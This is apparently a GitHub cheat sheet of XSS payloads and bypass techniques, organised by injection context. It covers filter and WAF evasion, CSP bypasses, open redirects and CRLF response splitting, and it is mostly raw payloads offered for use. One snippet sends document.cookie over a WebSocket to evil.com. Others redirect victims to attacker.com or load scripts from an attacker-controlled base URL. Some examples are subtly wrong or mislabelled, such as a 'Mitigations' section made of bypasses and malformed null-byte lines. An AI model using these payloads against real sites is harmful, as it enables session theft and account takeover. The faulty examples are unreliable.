 # Comprehensive Guide on Cross-Site Scripting (XSS) and Its Bypasses

## Table of Contents
1. [Introduction to XSS](#introduction-to-xss)
   1. [Types of XSS](#types-of-xss)
2. [Methodology for Detecting XSS](#methodology-for-detecting-xss)
   1. [Identify Injection Points](#identify-injection-points)
   2. [Determine Reflection Context](#determine-reflection-context)
3. [Contexts for XSS Injection](#contexts-for-xss-injection)
   1. [Raw HTML Context](#raw-html-context)
   2. [Inside HTML Tag Attributes](#inside-html-tag-attributes)
   3. [Inside JavaScript Code](#inside-javascript-code)
4. [Advanced Techniques and Bypasses](#advanced-techniques-and-bypasses)
   1. [Content Security Policy (CSP) Bypass](#content-security-policy-csp-bypass)
   2. [Polyglot XSS](#polyglot-xss)
   3. [Dangling Markup](#dangling-markup---html-scriptless-injection)
   4. [JSON-based XSS](#json-based-xss)
   5. [Bypassing Filters](#bypassing-filters)
   6. [Using HTML Entities](#using-html-entities)
   7. [Null Byte Injection](#null-byte-injection)
   8. [Case Variation](#case-variation)
   9. [Using Backticks in JavaScript](#using-backticks-in-javascript)
   10. [Chained XSS](#chained-xss)
5. [Exploiting DOM XSS](#exploiting-dom-xss)
   1. [Finding and Exploiting DOM XSS](#finding-and-exploiting-dom-xss)
6. [Debugging Client-Side JavaScript](#debugging-client-side-javascript)
   1. [Tools for Debugging](#tools-for-debugging)
7. [Mitigations and Best Practices](#mitigations-and-best-practices)
   1. [Input Validation and Sanitization](#input-validation-and-sanitization)
8. [Open Redirect Exploits](#open-redirect-exploits)
9. [How to Bypass Internal Filtering for XSS](#how-to-bypass-internal-filtering-for-xss)
10. [Understanding CSP](#understanding-csp)
    1. [Bypassing CSP](#bypassing-csp)
    2. [Exploiting Script Gadgets](#exploiting-script-gadgets)
11. [CRLF Injection to XSS](#crlf-injection-to-xss)
12. [Other Vulnerabilities Leading to XSS](#other-vulnerabilities-leading-to-xss)
    1. [PDF Generation Vulnerabilities](#pdf-generation-vulnerabilities)
    2. [XML Injection](#xml-injection)
    3. [XPath Injection Leading to XSS](#xpath-injection-leading-to-xss)
    4. [Unsafe Use of innerHTML](#unsafe-use-of-innerhtml)
    5. [Exploiting URL Fragments](#exploiting-url-fragments)
    6. [Misconfigured Content-Type Headers](#misconfigured-content-type-headers)
    7. [Injecting Malicious Frames](#injecting-malicious-frames)
    8. [Injecting Base Tags](#injecting-base-tags)
    9. [Exploiting SQL Errors](#exploiting-sql-errors)
    10. [Exif Data Injection to XSS](#exif-data-injection-to-xss)
    11. [IDN Homograph Attack](#idn-homograph-attack)
    12. [Other Advanced Techniques](#other-advanced-techniques)

## Introduction to XSS

XSS attacks enable attackers to inject malicious scripts into web pages. These scripts can execute in the context of a user's browser, allowing attackers to steal information, hijack sessions, or perform actions on behalf of the user.

### Types of XSS

- **Stored XSS**: The malicious script is permanently stored on the target server, such as in a database or comment field.
- **Reflected XSS**: The malicious script is reflected off a web server, typically via a URL query parameter.
- **DOM-Based XSS**: The vulnerability exists in the client-side code rather than the server-side code, and the attack payload is executed as a result of modifying the DOM environment.

## Methodology for Detecting XSS

### Identify Injection Points

Check if any value you control (parameters, path, headers, cookies) is reflected in the HTML or used by JavaScript code.

### Determine Reflection Context

- **Raw HTML**: Can you create new HTML tags or use attributes/events that support JavaScript?
- **Inside HTML Tag**: Can you exit to raw HTML or create events/attributes to execute JavaScript?
- **Inside JavaScript Code**: Can you escape the <script> tag or string context to execute arbitrary JavaScript?

## Contexts for XSS Injection

### Raw HTML Context

When your input is reflected in the raw HTML of a page, you can exploit it by injecting HTML tags that execute JavaScript. Common tags include:

```
<img src=x onerror=alert(1)>
<iframe src="javascript:alert(1)">
<svg onload=alert(1)>
```

### Inside HTML Tag Attributes

If your input is reflected within an attribute value, consider the following approaches:

Escape Attribute and Tag: 
```
"><img src=x onerror=alert(1)>
```

Event Handlers: If escaping the tag is not possible, use attributes like onfocus, onclick:
```
" autofocus onfocus=alert(1) x="
```

JavaScript Protocol: If within href, use javascript:
```
href="javascript:alert(1)"
```

### Inside JavaScript Code

If the input is reflected within JavaScript code, you need to break out of the string or the <script> tag to execute arbitrary code:

Escape String:
```
"; alert(1); "
```

Template Literals: If input is in a template literal:
```
`${alert(1)}`
```

## Advanced Techniques and Bypasses

### Content Security Policy (CSP) Bypass

CSP is a security measure that helps prevent XSS by specifying trusted content sources. However, it can be bypassed if not correctly configured.

### Polyglot XSS

Polyglot payloads can function in multiple contexts (HTML, JS, CSS) to bypass input filters.

Example Polyglot Payload:
```
"><svg onload=alert(1)><script>alert(1)</script>
```

### Dangling Markup - HTML Scriptless Injection

If you cannot create executing HTML tags, you might abuse dangling markup, which involves placing incomplete tags that break the current HTML context.

Example Dangling Markup:
```
<a href="/">Click here</a><b 
<script>alert(1)</script>
```

### JSON-based XSS

When web applications parse JSON data and directly insert it into the DOM without proper sanitization, it can lead to XSS.

Example JSON-based XSS:
```
{"name": "<img src=x onerror=alert(1)> "}
```

### Bypassing Filters

Using techniques like UTF-7 encoding, breaking out of existing tags, or leveraging uncommon payloads.

Example UTF-7 Encoding:
```
<iframe src="data:text/html;charset=utf-7,%2BADw-script%2BAD4-alert('XSS')%2BADw-/script%2BAD4-"></iframe>
```

### Using HTML Entities

Encoding the payload using HTML entities to bypass filters that block certain characters.

Example HTML Entities:
```
<img src=x onerror=&#x61;&#x6c;&#x65;&#x72;&#x74;(1)>
```

### Null Byte Injection

Using null bytes to bypass filters or terminate strings early.

Example Null Byte Injection:
```
<img src="x" onerror="alert(1)";%00" src="y">
<img src="x" onerror="alert(1)%00" src="y">
<svg onload="alert(1)%00">
<iframe src="javascript:alert(1)%00"></iframe>
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==%00"></iframe>
<a href="javascript:alert(1)%00">Click me</a>
<form action="javascript:alert(1)%00" method="post"><input type="submit"></form>
<img src="x" onerror="alert(1)";%00" src="y">
```

### Case Variation

Altering the case of HTML tags and attributes to bypass case-sensitive filters.

Obfuscation Techniques:
```
// Obfuscation with white spaces
<scr\0ipt>alert(1)</scr\0ipt>

// Breaking up keywords
<scri/*foo*/pt>alert(1)</scri/*foo*/pt>

// Using concatenation
<scr\+ipt>alert(1)</scr\+ipt>
```

Unexpected Input Variations:
```
// Inline event handlers
<svg><a href="javascript:alert(1)">click</a></svg>

// Injecting into attributes
<input type="text" value="``><svg onload=alert(1)>">
```

Example Case Variation:
```
<Svg OnloAd=alert(1)>
```

### Using Backticks in JavaScript

Bypassing filters by using backticks in JavaScript for template literals.

Example Using Backticks:
```
<script>let a = `alert(1)`</script>
```

### Chained XSS

Combining multiple injection points to achieve a successful XSS attack.

Example Chained XSS:
Injecting part of the payload in one input and another part in a different input to form a complete attack.

## Exploiting DOM XSS

DOM XSS occurs when a script on the page modifies the DOM based on user input, potentially leading to the execution of malicious scripts.

### Finding and Exploiting DOM XSS

- **Identify Sinks**: Look for functions or methods (e.g., innerHTML, document.write) that render user-controlled input.
- **Control Flow**: Understand how user input flows through the application to these sinks.
- **Payload Construction**: Craft payloads that exploit these sinks.

Example DOM XSS Payload:
```
<input oninput="document.getElementById('output').innerHTML = this.value">
<input value="<img src=x onerror=alert(1)>">
```

## Debugging Client-Side JavaScript

When working with complex XSS payloads, debugging client-side JavaScript can help understand how input is processed and reflected.

### Tools for Debugging

**Browser Developer Tools**: Use the console, breakpoints, and step through the JavaScript code to understand the application flow and find XSS injection points.

## Mitigations and Best Practices

### Input Validation and Sanitization

Ensure all user inputs are validated and sanitized before being processed or rendered.

Bypassing Filters with HTML Entities:
```
<svg onload=&#x61;&#x6c;&#x65;&#x72;&#x74;(1)>
<img src=x onerror=&#x61;&#x6c;&#x65;&#x72;&#x74;(1)>
```

Bypassing Filters with Null Bytes:
Null byte injection can terminate strings early or bypass certain filters by injecting null characters.
```
<img src="x" onerror="alert(1)";%00" src="y">
```

## Open Redirect Exploits

Basic Open Redirect to XSS:
```
javascript:alert(1)
```

Bypassing "javascript" Word Filter with CRLF:
```
java%0d%0ascript%0d%0a:alert(0)
```

Abusing Bad Subdomain Filter:
```
javascript://sub.domain.com/%0Aalert(1)
```

JavaScript with "://":
```
javascript://%250Aalert(1)
```

```
// Variation with query
javascript://%250Aalert(1)//?1
javascript://%250A1?alert(1):0
```

Other Variations:
```
%09Jav%09ascript:alert(document.domain) javascript://%250Alert(document.location=document.cookie) /%09/javascript:alert(1); /%09/javascript:alert(1) //%5cjavascript:alert(1); //%5cjavascript:alert(1) /%5cjavascript:alert(1); /%5cjavascript:alert(1) javascript://%0aalert(1) <>javascript:alert(1); //javascript:alert(1); //javascript:alert(1) /javascript:alert(1); /javascript:alert(1) \j\av\a\s\cr\i\pt:\a\l\ert(1) javascript:alert(1); javascript:alert(1) javascripT://anything%0D%0A%0D%0Awindow.alert(document.cookie) javascript:confirm(1) javascript://https://whitelisted.com/?z=%0Aalert(1) javascript:prompt(1) jaVAscript://whitelisted.com//%0d%0aalert(1);// javascript://whitelisted.com?%a0alert%281%29 /x:1/:///%01javascript:alert(/x:1/:///%01javascript:alert(document.cookie)/
";alert(0);//
```

Open Redirect by Uploading SVG Files:

Using SVG files to perform open redirects can be effective, especially when the application allows file uploads.

```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<svg
onload="window.location='http://www.example.com'"
xmlns="http://www.w3.org/2000/svg">
</svg>
```

Client-Side Prototype Pollution to XSS:

Prototype pollution in JavaScript occurs when an attacker can modify the properties of Object.prototype. This can lead to XSS if these properties are used in sensitive operations.

```
// Prototype pollution payload
Object.prototype.polluted = 'polluted';
```

If the application uses a polluted object property in a dangerous way, this can lead to XSS:

```
var obj = {};
alert(obj.polluted); // Outputs: polluted
```

## How to Bypass Internal Filtering for XSS

Bypassing internal filtering mechanisms such as Web Application Firewalls (WAFs) and input sanitization requires a deep understanding of how these filters operate and the techniques that can be used to circumvent them. This guide provides an in-depth look at various methods to bypass internal filtering mechanisms for XSS attacks.

Internal filters and WAFs are designed to prevent malicious inputs by inspecting, sanitizing, or blocking suspicious content. Common filtering techniques include:

- **Blacklisting**: Blocking known malicious patterns or keywords.
- **Whitelisting**: Allowing only specific safe inputs.
- **Encoding**: Converting special characters to their HTML entities.
- **Normalization**: Simplifying input to a consistent form for easier inspection.

### Techniques for Bypassing Filters

#### Encoding and Decoding

Using various encoding methods can help bypass filters that don't decode inputs before inspection.

URL Encoding:
```
%3Cscript%3Ealert(1)%3C/script%3E
```

Double URL Encoding:
```
%253Cscript%253Ealert(1)%253C/script%253E
```

HTML Entities:
```
&#x3C;script&#x3E;alert(1)&#x3C;/script&#x3E;
```

Unicode Encoding:
```
\u003Cscript\u003Ealert(1)\u003C/script\u003E
```

#### Case Variation

Altering the case of HTML tags and attributes can bypass filters that are case-sensitive.

```
<ScRiPt>alert(1)</ScRiPt>
<Img sRc=x OnErRoR=alert(1)>
```

#### Comment Insertion

Inserting comments within the payload can break up patterns that the filter is looking for.

```
<scr<!-- -->ipt>alert(1)</scr<!-- -->ipt>
```

#### Using Null Bytes

Null byte injection can terminate strings early or bypass certain filters.

```
<img src="x" onerror="alert(1)%00" src="y">
<svg onload="alert(1)%00">
```

#### Breaking Up Keywords

```
<scri/*foo*/pt>alert(1)</scri/*foo*/pt>
```

#### Using Concatenation

```
<scr\+ipt>alert(1)</scr\+ipt>
```

#### Leveraging Browser Parsing Quirks

Different browsers may interpret malformed HTML or JavaScript in ways that can be exploited.

```
<scr<script>ipt>alert(1)</scr</script>ipt>
```

#### Incomplete Tags

```
<svg><a href="javascript:alert(1)">click</a></svg>
```

#### Inserting White Spaces and Line Breaks

Using white spaces and line breaks to bypass filters.

```
<scr\0ipt>alert(1)</scr\0ipt>
<svg
onload=alert(1)>
```

#### Combining Techniques

Combining multiple bypass techniques to create a payload that evades detection.

```
<scr\0ipt>alert(1)</scr\0ipt>
%3Cscript%3E%61lert(1)%3C/script%3E
<scr\+ipt>alert(1)%00</scr\+ipt>
```

### Real-World Examples

#### URL Encoding and Decoding

Using URL encoding to bypass filters that do not decode inputs before inspection.

Combining case variation and comment insertion to bypass case-sensitive filters.

```
<ScRiPt>alert(1)</ScRiPt>
<scr<!-- -->ipt>alert(1)</scr<!-- -->ipt>
```

#### Null Byte Injection

Using null bytes to terminate strings early or bypass certain filters.

```
<img src="x" onerror="alert(1)%00" src="y">
<svg onload="alert(1)%00">
```

#### Obfuscation and Concatenation

Using obfuscation and concatenation to avoid detection by filters.

```
<scri/*foo*/pt>alert(1)</scri/*foo*/pt>
<scr\+ipt>alert(1)</scr\+ipt>
```

## Understanding CSP

CSP works by allowing website owners to define a whitelist of trusted sources for content such as scripts, styles, images, and more. This is done through the Content-Security-Policy HTTP header. Key directives include:

- **default-src**: The default policy for loading content types.
- **script-src**: Defines trusted sources for JavaScript.
- **style-src**: Defines trusted sources for CSS.
- **img-src**: Defines trusted sources for images.

### Common CSP Misconfigurations

Misconfigured CSP policies are often the root cause of bypasses. Common issues include:

- Allowing unsafe-inline or unsafe-eval in script-src.
- Overly permissive whitelists.
- Failing to cover all possible directives, leaving certain content types unprotected.

## Bypassing CSP

JSONP (JSON with Padding) allows data to be fetched from a different domain using a <script> tag. If the JSONP endpoint is not properly secured, it can be exploited to execute arbitrary JavaScript.

Overly permissive CSP headers, such as those allowing unsafe-inline, can be exploited to run inline scripts directly.

```
<script nonce="random-nonce">alert(1)</script>
```

### Inline Script Allowances

When unsafe-inline is allowed, or if there is an oversight allowing inline scripts, attackers can inject their payload directly into inline scripts.

### Data URIs

Data URIs can sometimes be used to bypass CSP if they are allowed in the policy.

```
<img src="data:image/svg+xml;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+">
```

## Exploiting Script Gadgets

Script gadgets are existing pieces of code on a website that can be exploited to perform unintended actions. This is particularly effective if unsafe-inline or unsafe-eval is used.

### Exploitation

1. Find an existing inline script that can be manipulated.
2. Inject code that modifies the behavior of the script.

### Content Injection via Whitelisted CDNs

If a Content Delivery Network (CDN) is whitelisted, and the attacker can upload content to that CDN, they can inject malicious scripts.

#### Exploitation

1. Upload a malicious script to cdn.example.com.
2. Include the script on the target site:

```
<script src="https://cdn.example.com/malicious.js"></script>
```

### Subresource Integrity (SRI) Bypass

SRI is used to ensure that resources hosted on third-party servers have not been tampered with. However, if SRI is not used properly, it can be bypassed.

#### Exploitation

1. Host a script on a trusted domain without SRI.
2. Include the script:

```
<script src="https://trusted.com/script.js"></script>
```

### Mutation XSS

Mutation XSS exploits the way browsers handle dynamic content changes. If CSP allows unsafe-inline, attackers can inject payloads that mutate the DOM in unexpected ways.

#### Exploitation:

```
<div><img src=x onerror="alert(1)"></div>
<script>
document.querySelector('div').innerHTML = '<img src=x onerror="alert(1)">';
</script>
```

### Using WebSockets

WebSockets can sometimes be used to exfiltrate data or execute JavaScript if allowed by CSP.

#### Exploitation:

```
var ws = new WebSocket("wss://evil.com/socket");
ws.onopen = function() {
  ws.send(document.cookie);
};
```

### CSP Nonce Reuse

If the CSP nonce is reused or predictable, it can be exploited to run malicious scripts.

#### Exploitation

1. Predict or capture the nonce value.
2. Use the nonce to execute a script:

```
<script nonce="captured-nonce">alert(1)</script>
```

### Example of a Secure CSP Header

Here's an example of a secure CSP header that mitigates most XSS attacks:

```
Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-random-nonce'; style-src 'self' 'nonce-random-nonce'; object-src 'none'; frame-ancestors 'none'; base-uri 'self'; form-action 'self';
```

## CRLF Injection to XSS

CRLF injection (Carriage Return Line Feed) is a vulnerability that occurs when an attacker can inject CRLF characters into an application, typically resulting in the manipulation of HTTP headers or log files. This guide explores how CRLF injection can be exploited to perform XSS attacks.

### Understanding CRLF Injection

CRLF injection vulnerabilities occur when an application improperly handles user input, allowing the injection of CR (Carriage Return, \r, %0d) and LF (Line Feed, \n, %0a) characters. This can lead to:

- Manipulation of HTTP headers
- Injection into logs
- HTTP response splitting

### Basic CRLF Injection

CRLF injection can be used to inject new headers or modify the existing ones by breaking the intended structure of the HTTP response.

```
GET /vulnerable.php?param=value%0d%0aInjected-Header: injected_value HTTP/1.1
```

In this example, Injected-Header: injected_value would be treated as a new header.

### CRLF Injection to XSS

By leveraging CRLF injection, an attacker can inject malicious content, including scripts, into the HTTP response, potentially leading to XSS.

#### Injecting Scripts via HTTP Response Splitting

HTTP response splitting occurs when CRLF injection allows the creation of additional HTTP responses. This can be exploited to insert scripts directly into the response body.

Example:

Assume a vulnerable application includes user input directly in HTTP headers. An attacker can inject CRLF characters followed by a script tag.

```
GET /vulnerable.php?param=value%0d%0aContent-Length:%2023%0d%0a%0d%0a<script>alert(1)</script> HTTP/1.1
```

### URL Redirection and CRLF Injection

Another approach is to use CRLF injection to manipulate redirection headers and include XSS payloads.

Consider an application that redirects users based on input parameters. An attacker can inject CRLF characters to terminate the location header and include a script.

```
GET /redirect.php?url=http://example.com%0d%0aLocation:%20http://attacker.com/xss.html HTTP/1.1
```

### Log Injection

CRLF injection can also be used to manipulate server logs, potentially leading to XSS when logs are viewed in an insecure application.

An attacker injects a script into log entries:

```
GET /vulnerable.php?param=value%0d%0a%0d%0a<script>alert(1)</script> HTTP/1.1
```

### Advanced CRLF Injection Techniques

#### Double CRLF Injection

Using multiple CRLF sequences to break the HTTP response in more complex scenarios.

```
GET /vulnerable.php?param=value%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0a%0d%0a<script>alert(1)</script> HTTP/1.1
```

#### Hybrid Injection

Combining CRLF injection with other techniques such as parameter pollution or path traversal to enhance the attack.

```
GET /vulnerable.php?param1=value1&param2=value2%0d%0aSet-Cookie:%20session=malicious_value%0d%0a%0d%0a<script>alert(1)</script> HTTP/1.1
```

CRLF injection is a powerful technique that can lead to severe security vulnerabilities, including XSS. Understanding how to exploit and mitigate CRLF injection is crucial for securing web applications. By employing proper input validation, header handling, and security policies, developers can protect their applications from these attacks.

## Other Vulnerabilities Leading to XSS

### PDF Generation Vulnerabilities

#### Dynamic PDF Content Injection

When generating PDFs dynamically from user input, malicious content can lead to XSS.

```
// Vulnerable PDF generation code
$pdf->writeHTML($_POST['user_input']);
```

### XML Injection

XML data that includes user input can be manipulated to include malicious scripts.

```
<!-- Vulnerable XML data -->
<user>
  <name><?php echo $_POST['name']; ?></name>
</user>
```

### XPath Injection Leading to XSS

XPath injection vulnerabilities can be exploited to retrieve sensitive data and potentially inject XSS.

```
// Vulnerable XPath query
$query = "//user[name/text()='" . $_POST['name'] . "']";
$result = $xpath->query($query);
```

### Unsafe Use of innerHTML

Using innerHTML to insert user input into the DOM can lead to XSS.

```
document.getElementById('output').innerHTML = user_input;
```

### Exploiting URL Fragments

User-controlled fragments in URLs can be manipulated to inject scripts.

```
// Vulnerable code using location.hash
var fragment = location.hash.substring(1);
document.getElementById('output').innerHTML = fragment;
// If an attacker controls the URL
http://example.com#<img src=x onerror=alert(1)>
```

### Misconfigured Content-Type Headers

Misconfigured Content-Type headers can cause browsers to interpret data as executable scripts.

```
// Response with wrong Content-Type
Content-Type: text/html
{"user": "<script>alert(1)</script>"}
```

### Injecting Malicious Frames

Injecting malicious content into iframe sources can lead to XSS.

```
<iframe src="<?php echo $_GET['page']; ?>"></iframe>
// if an attacker submits
http://example.com/page.php?page=http://malicious.com
```

### Injecting Base Tags

If script tags and event handler attributes are blocked you can try to leverage base tags for XSS.

```
//lets say the site has a script tag like this
<script src="static/js/context.js"/>

//the attacker could inject
<base href="https://attacksite.com">

//and host their own static/js/context.js. note: the injection point must be above the targetted script
```

### Exploiting SQL Errors

If you see SQL errors, they are often not sanitized. This means they are worth checking for reflected XSS. This doesn't only apply to SQL specifically but it's the context I've seen this most.

### Exif Data Injection to XSS

Inject XSS Payloads into Exif data if the form is not sanitized properly.

Use a tool like ExifTool to embed a JavaScript payload in the EXIF metadata of an image.

```
exiftool -Title='<img src="x" onerror="alert(\'XSS via EXIF Metadata\')">' image.jpg
```

### IDN Homograph Attack

IDN allows the use of Unicode characters in domain names. Attackers can register domains that look visually similar to trusted domains by using characters from different languages that look alike. These domains can then host malicious content.

#### Detailed Example of IDN Homograph Attack

Domain Registration:

The attacker registers a domain that looks similar to a trusted domain. For example, they can replace the Latin letter "a" with the Cyrillic letter "а" (U+0430).

- Trusted domain: example.com
- Malicious domain: exаmple.com (notice the Cyrillic "а")

Punycode Representation:

Browsers convert Unicode domains to ASCII-compatible encoding called Punycode. This representation starts with xn--.

- example.com (trusted domain)
- exаmple.com (malicious domain) becomes xn--exmple-2of.com

Hosting Malicious Content:

The attacker hosts a page on xn--exmple-2of.com with malicious scripts designed to look like the legitimate site but contain XSS payloads.

Phishing Email or Link:

The attacker sends phishing emails or messages with links to the malicious domain, tricking users into clicking them.

### Other Advanced Techniques

#### Exploiting WebAssembly

WebAssembly (Wasm) code that includes user input can be manipulated to execute malicious scripts.

```
WebAssembly.instantiateStreaming(fetch('module.wasm'), { env: { userInput: user_input } });
```

#### JavaScript URL Injection

If an application uses URLs with the javascript: scheme in places where it accepts input, this can lead to XSS.

```
javascript:alert('XSS via JavaScript URL')
```

#### Referer Header Injection

If an application reflects the Referer header without sanitization, it can lead to XSS.

```
Referer: https://attacker-site.com/<img src=x onerror=alert('XSS via Referer Header')>
```

#### SVG Use Element Injection

The <use> element in SVG can reference external content. If an application accepts user input for SVG references and does not properly sanitize it, this can lead to XSS.

```
<use href="data:image/svg+xml,%3Csvg xmlns='http://www.w3.org/2000/svg'%3E%3Cimage href=x onerror=alert('XSS via SVG Use')%3E%3C/svg%3E">
```

#### Server-Sent Events (SSE) Injection

Server-Sent Events (SSE) allow servers to push updates to the client. If the data sent by the server is not sanitized, it can lead to XSS.

```
https://vulnerable-site.com/sse?data=<script>alert('XSS via SSE')</script>
```

#### EventSource API Injection

The EventSource API allows servers to push updates to the client. If the server sends unsanitized data, it can lead to XSS.

```
event: message\ndata: <script>alert('XSS via EventSource')</script>\n\n
```

#### CSS Content Property Injection

If an application allows user input in CSS properties without sanitization, it can lead to XSS.

Note: most browsers consider the content property text not HTML and this works under very certain conditions. Unsure whether the browser still accepts this however I have inserted here as a use case.

```
<style>
  .content::before { content: '<img src=x onerror=alert("XSS via CSS Content Property")>'; }
</style>
```

#### Drag and Drop File Path Injection

If a web application accepts dragged-and-dropped files and reflects their paths without sanitization, it can lead to XSS.

Find the Files here:
https://github.com/ShadowByte1/XSS-File-Path-Names

```
"><img src=x onerror=alert('XSS via File Path')>
```

#### Data Binding Libraries Injection

If an application uses data binding libraries (like AngularJS) and reflects user input without sanitization, it can lead to XSS.

```
<div ng-app ng-csp>
  <div ng-bind-html="'<img src=x onerror=alert(\'XSS via AngularJS\')>'"></div>
</div>
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.6.9/angular.min.js"></script>
```
